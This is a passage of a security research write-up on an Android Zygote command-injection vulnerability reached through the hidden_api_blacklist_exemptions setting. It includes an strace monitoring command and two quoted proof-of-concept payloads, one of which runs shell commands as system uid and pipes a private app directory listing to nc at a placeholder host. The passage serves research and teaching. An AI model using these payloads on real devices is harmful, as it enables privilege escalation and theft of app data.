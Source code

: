 `strace -s 12200 -e trace=read -p "$(ps -A | grep zygote64 | awk '{print $2}')" `

With these two commands, we have enough to see what enters Zygote and continue exploring this vulnerability. We recommend playing around with them, opening apps, noticing the changes, etc. This will give us a deeper understanding of how _system server_ communicates with Zygote.

## -[ 0x05 First explorations. ]-

To change the value of `hidden_api_blacklist_exemptions`, you only need to use the `settings` command from `adb shell` as follows:

```bash
settings put global hidden_api_blacklist_exemptions [valor de la variable]
```
&nbsp;
Flanker017 provides a quick proof of concept that we can try on Android 11:

```bash
settings put global hidden_api_blacklist_exemptions "LClass1;->method1(
3
--runtime-args
--setuid=1000
--setgid=1000
1
--boot-completed"
```
&nbsp;
If we paste this command into the `adb` shell, we will only end up leaving the phone in an unusable state. This may happen many times during this experiment. Sometimes it is fixed by restarting the emulator, and other times you have to completely restore it (using the "wipe data" option) for it to work again.

Either way, that lockup indicates that something happened, but it did not complete successfully, since the phone froze and we could not see any evidence that the commands had been executed.

Flanker017 also gives us clues later in his article when he talks about exploitation methods and finds an argument that will be key in our exploit: `--invoke-with`.

This argument allows passing a bash command that will be used by Zygote before launching the application. Like in a good *command injection*, we can execute several commands at once by separating them with semicolons (`;`) and end with `#` to *comment out* anything Zygote adds afterward.

This looks promising.

The write-up by LLeavesg gives us another, more complete proof of concept, let's take a look:

```bash
8
--setuid=1000
--setgid=1000
--runtime-args
--seinfo=platform:privapp:targetSdkVersion=30:complete
--runtime-flags=1
--nice-name=zYg0te
--invoke-with
echo "$(id; cd /data/data/com.android.settings ; pwd; ls -al)" | nc xxx xxx; #
,,,,X
```
&nbsp;
Let's analyze this _payload_:  

